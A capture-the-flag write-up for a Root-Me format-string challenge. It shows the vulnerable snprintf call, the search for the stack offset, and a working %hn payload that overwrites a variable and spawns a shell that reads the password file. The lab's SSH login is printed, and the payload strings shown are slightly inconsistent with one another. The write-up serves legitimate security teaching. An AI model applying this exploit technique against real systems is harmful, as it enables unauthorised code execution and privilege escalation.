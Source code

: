 # ELF x86 - Format string bug basic 2
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-2
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 YES 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch5@challenge02.root-me.org  
Username	app-systeme-ch14
Password	app-systeme-ch14
```
According to the source, the goal is to change the variable _check_ from 0x04030201 to 0xdeadbeef using string format vulnerability.<br>
The vulnerable code is at line 25:
```c
snprintf( fmt, sizeof(fmt), argv[1] );
```
Which enables an attacker to control the **fmt** argument of _snprintf_.<br>
Let's verify it quickly:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 %08x.%08x.%08x.%08x
check at 0xbffffb08
argv[1] = [%08x.%08x.%08x.%08x]
fmt=[b7fdc4a0.00000001.00000000.00000001]
check=0x4030201
```
In order to exploit this vulnerability, first we'll need to find the offset of to our **argv[1]**. After few tries, one can find out that the offset is 9:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 "AAAA %x %x %x %x %x %x %x %x %x"
check at 0xbffffaf8
argv[1] = [AAAA %x %x %x %x %x %x %x %x %x]
fmt=[AAAA b7fdc4a0 1 0 1 bffffc24 0 0 4030201 {41414141}]
check=0x4030201
```
Let's try to override the first nimble of **check**.<br>
First, we'll enter **check**'s address to the format string.<br>
Then, we'll make sure that the output string will contain enough bytes, so 0xbeef will be written.<br>
And for last, we'll take advantage of the "$" (control which variable will be used) and "hn" (writes the number of bytes into an int pointer) options.
So the input should look like ```\x08\xfb\xff\xbf%48875x%9hn``` (the 48875 can be found by trial and error):
```sh
app-systeme-ch14@challenge02:~$ ./ch14 $(python /tmp/exploit.py)
check at 0xbffffb08
argv[1] = ���%48875x%9$hn]

You are on the right way !
fmt=���                                                                                                                           ]
check=0x403beef
```
Great!<br>
Now let's write the second nimble.<br>
First, we'll enter the second nimble's address into the buffer (0xbffffb08 + 2 = 0xbffffb0a).<br>
Second, we'll adjust the 48875 to 48871 (4 more bytes entered).<br>
Then, at the end we'll make sure that the output string will contain enough bytes, so 0xdead will be written.<br>
And for last, we again take advantage of the "$" and "hn" options.<br>
So the input should look like ```\x08\xfb\xff\xbf\x0a\xfb\xff\xbf%48871x%9hn%8126x%10$hn```:
```
app-systeme-ch14@challenge02:~$ ./ch14 $(python /tmp/exploit.py)
check at 0xbffffaf8
argv[1] = [��������%48871x%9$hn%73662x%10$hn]
fmt=[��������                                                                                                                       ]
check=0xdeadbeef
Yeah dude ! You win !
$ id
uid=1114(app-systeme-ch14) gid=1114(app-systeme-ch14) euid=1214(app-systeme-ch14-cracked) groups=1214(app-systeme-ch14-cracked),100(users),1114(app-systeme-ch14)
$ cat .passwd
<censored>
```
